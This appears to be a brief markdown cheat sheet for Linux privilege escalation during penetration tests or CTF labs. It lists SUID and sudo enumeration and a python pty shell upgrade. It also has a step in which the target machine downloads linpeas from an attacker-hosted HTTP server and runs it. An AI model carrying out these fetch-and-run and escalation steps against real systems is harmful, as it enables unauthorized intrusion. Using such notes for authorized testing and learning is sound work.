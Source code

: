 ## Add host to hosts file
```
└─$ echo "<host ip> <hostname>" | sudo tee -a /etc/hosts   
```

## Privescs Discovery

#### Find privescs exploiting SUID binaries:

```
find / -perm -u=s -type f 2>/dev/null
```

## Find privescs by listing sudo permissions:

```
sudo -l

```
## Enumerate interesting files, processes, and privescs using Linpeas:

- Install [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) on your machine.
- Transfer it to the target machine.
## On Attack machine within the linpeas folder
```
python3 -m http.server 80
```
## On target machine
```
wget <local ip>/linpeas.sh
chmod +x linpeas.sh  
./linpeas.sh  | tee linpeas.log
```


## Upgrade Shell with python

```
python -c 'import pty;pty.spawn("/bin/bash")'
```